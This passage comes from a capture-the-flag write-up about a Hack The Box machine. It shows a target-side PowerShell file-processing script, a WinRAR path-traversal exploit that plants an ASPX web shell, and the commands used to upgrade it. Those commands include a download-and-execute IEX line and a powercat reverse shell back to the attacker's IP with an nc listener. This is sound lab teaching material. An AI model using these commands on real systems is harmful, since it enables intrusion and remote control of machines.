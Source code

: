                 # kill open office, sleep
                Stop-Process -Name soffice*
                Start-Sleep -s 5

                #& 'C:\Program Files (x86)\WinRAR\Rar.exe' a -ep $process_dir\temp.rar $process_dir\*.ods 2>&1 | Out-Null
                Compress-Archive -Path "$process_dir\*.ods" -DestinationPath "$process_dir\temp.zip"
                $hash = (Get-FileHash -Algorithm MD5 $process_dir\temp.zip).hash
                # Upstream processing may expect rars. Rename to .rar
                Move-Item -Force -Path $process_dir\temp.zip -Destination $files_to_analyze\$hash.rar
        }

        Remove-Item -Recurse -force -Path $process_dir\*
        Start-Sleep -s 5
}
It basically grabs all uploaded documents, unzips them, runs Yara on them and deletes all files that match, then launches all ODS files that are left. In the end it creates a RAR archive. The comment is a hint that some downstream processing would happen to it. These files are written to “C:\Users\luke\Documents\ods”.

I found an empty folder at “C:\Program Files (x86)\WinRAR” but an installer was still left in “C:\Users\luke\Downloads”, which indicated the version may be 5.50 beta 1. Searching for exploits brought up path traversal / RCE exploits for WinRAR 5.61, which may apply:


WinRAR 5.50 installer and exploits
Exploiting WinRAR
A publicly available exploit is on github.com/manulqwerty/Evil-WinRAR-Gen. It claims to be an RCE since you can write stuff to the startup folder with it. On HTB the machine will not be rebooted so we need a better idea, like writing a web shell into one of the web directories the current user has no access to.

I grabbed a shell from “/usr/share/nishang/Antak-WebShell/antak.aspx” and created the RAR file with “opt/Evil-WinRAR-Gen/evilWinRAR.py -o evil.rar -e FY7JGAlO4a9YVcCdFwk5mHSK.aspx -g harmless.txt -p '\inetpub\wwwroot\re\'”. For some reason it needs a harmless file, which can contain anything. A simple download to “C:\Users\luke\Documents\ods” triggered processing and the file disappeared shortly after the download:


Creating and uploading an evil RAR file
I was then able to access the webshell:


Using the web shell as user re
Upgrading the shell
A web shell is nice but a reverse shell is better. To do it I used github.com/besimorhino/powercat. I downloaded “powercat.ps1”, appended “powercat -c 10.10.15.130 -p 443 -ep” to make it send a Powershell reverse shell back. After setting up a listener with “nc -lnvp 443” I executed the following command through the web shell: “IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.15.130/powercat.ps1')":


Upgrading to reverse shell
The result was a reverse shell, running as user “apppool\re”, and with full PowerShell support.
